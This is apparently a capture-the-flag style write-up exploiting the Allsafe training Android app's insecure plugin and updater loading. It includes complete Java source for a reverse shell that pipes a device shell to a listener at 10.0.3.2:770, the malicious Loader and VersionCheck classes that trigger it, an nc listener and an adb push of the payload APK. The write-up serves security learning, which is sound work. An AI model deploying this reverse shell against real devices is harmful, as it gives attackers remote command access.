







Let's first have a look at the challenge:



This is the first function, we can see it checks if there is some installed package that starts with `infosecadventures.allsafe`. If there is, it tries to load the class `infosecadventures.allsafe.plugin.Loader` from this package, and then load the static method `loadPlugin`, which being executed.



Let's create the package `infosecadventures.allsafe.plugin` with the class `Loader` and the static method `loadPlugin`.

This is the `MainActivity.java`:

```java
package infosecadventures.allsafe.plugin;  
  
import android.os.Bundle;  
import android.widget.Button;  
  
import androidx.activity.EdgeToEdge;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_main);  
  
        Button button = this.findViewById(R.id.button_plugin);  
        button.setOnClickListener(v -> Loader.loadPlugin());  
    }  
}
```

This is the class `Loader.java`:

```java
package infosecadventures.allsafe.plugin;  
import android.util.Log;  
  
public class Loader {  
    public static void loadPlugin() {  
        Log.d("PLUGIN", "load plugin");  
        Shell.spawn("10.0.3.2", 770);  
    }  
}
```

and the code of the reverse shell spawning:

```java
package infosecadventures.allsafe.plugin;  
  
import android.util.Log;  
import java.io.InputStream;  
import java.io.OutputStream;  
import java.net.Socket;  
  
public class Shell {  
    public static void spawn(String host, int port) {  
        new Thread(() -> {  
            try {  
                Process p = new ProcessBuilder("sh").redirectErrorStream(true).start();  
                Socket s = new Socket(host, port);  
  
                // Pipe Process -> Socket  
                Thread t1 = pipe(p.getInputStream(), s.getOutputStream());  
                // Pipe Socket -> Process  
                Thread t2 = pipe(s.getInputStream(), p.getOutputStream());  
  
                t1.join();  
                p.destroy();  
                s.close();  
            } catch (Exception e) {  
                Log.e("SHELL", "Error: " + e.getMessage());  
            }  
        }).start();  
    }  
  
    private static Thread pipe(InputStream in, OutputStream out) {  
        Thread t = new Thread(() -> {  
            try {  
                byte[] buf = new byte[1024];  
                int len;  
                while ((len = in.read(buf)) != -1) {  
                    out.write(buf, 0, len);  
                    out.flush();  
                }  
            } catch (Exception ignored) {}  
        });  
        t.start();  
        return t;  
    }  
}
```

There is also `activity_main.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>  
<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:app="http://schemas.android.com/apk/res-auto"  
    xmlns:tools="http://schemas.android.com/tools"  
    android:id="@+id/main"  
    android:layout_width="match_parent"  
    android:layout_height="match_parent"  
    tools:context=".MainActivity">  
  
    <Button        
	    android:id="@+id/button_plugin"  
        android:layout_width="wrap_content"  
        android:layout_height="wrap_content"  
        android:text="Load Plugin"  
        app:layout_constraintBottom_toBottomOf="parent"  
        app:layout_constraintEnd_toEndOf="parent"  
        app:layout_constraintHorizontal_bias="0.5"  
        app:layout_constraintStart_toStartOf="parent"  
        app:layout_constraintTop_toTopOf="parent"  
        app:layout_constraintVertical_bias="0.5" />  
  
  
</androidx.constraintlayout.widget.ConstraintLayout>
```

Notice, adjust the `host` and `port` as you need, in genymotion android emulator the ip of the host is `10.0.3.2`.

Now, I set a listener:

```bash
nc -nvlp 770
```

and started the application using `adb`:



We got the reverse shell.

--------

Part2, here we have this code:



It checks if there is file with name `allsafe_updater.apk`, at the location of `/sdcard/Download/`
If saw, he loads the class `VersionCheck`, from the package `infosecadventures.allsafe.updater` (notice he uses DEX, because this is statically, and not dynamically), and then invoke the method `getLatestVersion`.

Let's create new application with the package `infosecadventures.allsafe.updater`:


Next, we want to create the class `VersionCheck`, with the method `getLastestVersion`:

This will be the main difference:

```java
package infosecadventures.allsafe.updater;  
  
import android.util.Log;  
  
public class VersionCheck {  
    public static int getLatestVersion() {  
        Log.d("VersionCheck", "check version");  
        Shell.spawn("10.0.3.2", 770);  
  
        return 31337;  
    }  
  
}
```

Now, we want to build the app, and then upload the apk to the exact location:





```bash
adb push /Users/agonen/AndroidStudioProjects/AllSafeUpdater/app/build/outputs/apk/debug/app-debug.apk /sdcard/Download/allsafe_updater.apk
```

It should work, I'm not sure why it isn't working   ): 

